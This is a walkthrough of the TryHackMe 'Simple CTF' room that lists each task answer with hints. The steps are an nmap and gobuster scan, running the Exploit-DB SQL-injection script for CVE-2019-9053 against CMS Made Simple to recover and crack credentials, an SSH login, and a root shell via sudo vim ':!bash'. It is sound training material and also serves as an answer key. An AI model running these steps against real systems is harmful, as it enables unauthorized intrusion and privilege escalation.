 #### Link to room: https://tryhackme.com/room/easyctf

#### [Task 1] Simple CTF
   1. 2
> Hint:
>
> Type the command "nmap -sC -sV \<GIVEN-IP-ADDRESS\>"
>
> -sC = Use default scripts to scan the IP address
>
> -sV = Use for service/version detection
>
> You should get an ouput like this
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.7.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

```
> From this output you can see that the ports running under 1000 are ports 21 and 80 
   2. ssh 
> Hint:
>
> You can see that the highest port number is 2222 and that is running SSH
   3. CVE-2019-9053 
> Hint: 
>
> If you go to the http page by navigating to "http://\<GIVEN-IP-ADDRESS\>"
>
> It is the default ubuntu page, this is strange so makes sense that there must be a sub directory somewhere
>
> Type in the command "gobuster dir -u 10.10.171.237 -w /usr//share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt"
>
> And the output will show "/simple (Status: 301)"
>
> By navigating to "http://\<GIVEN-IP-ADDRESS\>/simple"
>
> We are presented with a "CMS Made Simple" page 
>
> If we search "CMS MADE SIMPLE CVE", we should see this [page](https://www.exploit-db.com/exploits/46635)
>
> With the correct CVE present on that page 
   4. SQLi
> Hint: 
>
> From this [page](https://www.exploit-db.com/exploits/46635) we can see that the page is vulnerable to SQL injection 
   5. secret
> Hint: 
>
> If you save the script then we will be able to use it
>
> If you go into your documents then the file will be present and will be called "46635.py"
>
> If we type "python 46635.py", it will show us the syntax that we will have to use
>
> Type the following "python 46635.py -u http://\<GIVEN-IP-ADDRESS\>/simple --crack -w /usr/share/dirb/wordlists/common.txt"
>
> The script should output the following: 
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret

```
   6. SSH
> Hint: 
>
> From the nmap output, there was a SSH port open therefore it seems logical that we should be able to login into SSH with these credentials 

   7. G00d j0b, keep up!
> Hint: 
>
> If you type the following command: 
>
> ssh -p 2222 mitch@\<GIVEN-IP-ADDRESS\>
>
> We should be successfully logged in as mitch and we can "cat user.txt" to see the answer
   8. sunbath
> Hint: 
>
> Type in "cd .." to go back to the home directory 
>
> Type in "ls" to see all directories in the current home directory 
   9. vim 
> Hint: 
>
> If you type the command "sudo -l", we can see which commands we can run as other users 
>
> This should be visible: (root) NOPASSWD: /usr/bin/vim
>
> Meaning we could run vim as root 
   10. W3ll d0n3. You made it!
> Hint 
>
> Type the command "sudo /usr/bin/vim"
>
> This will open up a VIM terminal 
>
> If you enter ":!bash"
>
> You will there be escalated to the root user and you can "cat /root/root.txt"
